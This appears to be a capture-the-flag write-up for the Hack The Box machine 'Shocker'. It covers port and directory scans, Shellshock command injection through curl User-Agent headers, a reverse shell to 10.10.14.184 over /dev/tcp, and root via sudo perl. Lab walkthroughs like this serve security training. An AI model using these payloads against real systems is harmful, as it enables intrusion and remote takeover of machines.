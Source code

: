 # Shocker

![image](https://user-images.githubusercontent.com/5285547/124322481-6e1e4200-db77-11eb-9e65-04c366f56e6c.png)

# Nmap 

```
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running dirb tool 
```
dirb http://10.10.10.56/  

http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                                                                  
http://10.10.10.56/index.html (CODE:200|SIZE:137) 
```

Noting the name of the box, I can tell this is going to be a shellshock vunerability with the cgi-bin directory its a given! 

/cgi-bin/
```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w  /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt    -t 30 -x .txt,.html,.php,.bk,.gz,.png,.sh -s 403,200

/user.sh              (Status: 200) [Size: 118]
```

## ShellShock

- Basic usage (Exploit)



```
curl http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/ls"
```
```
user.sh
```

Lets get the user of the box in /home

```
curl http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/ls /home"
```
```
shelly
```

We can get the user flag now then work on getting on the box properly via a reverse shell 

```
curl -v http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/cat /home/shelly/user.txt"
```

Flag
```
beb558c0c6{REDACTED}a1ce663157
```

## Reverse Shell

```
curl -v http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/sh -i >& /dev/tcp/10.10.14.184/9999 0>&1"
```
```
stty raw -echo;fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

Looking around the system you quickly find sudo -l has a good esculation route

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

## Root

GTFOBins 
![image](https://user-images.githubusercontent.com/5285547/124326697-c4db4a00-db7e-11eb-9ce2-0f01ae33dc46.png)


```
sudo perl -e 'exec "/bin/sh";'
```

Now we are root and can get the last flag.txt in /root

![image](https://user-images.githubusercontent.com/5285547/124326767-eccaad80-db7e-11eb-8b39-0bd25d522af8.png)


Flag
```
f011efb96{REDACTED}a7f7284ceea
```


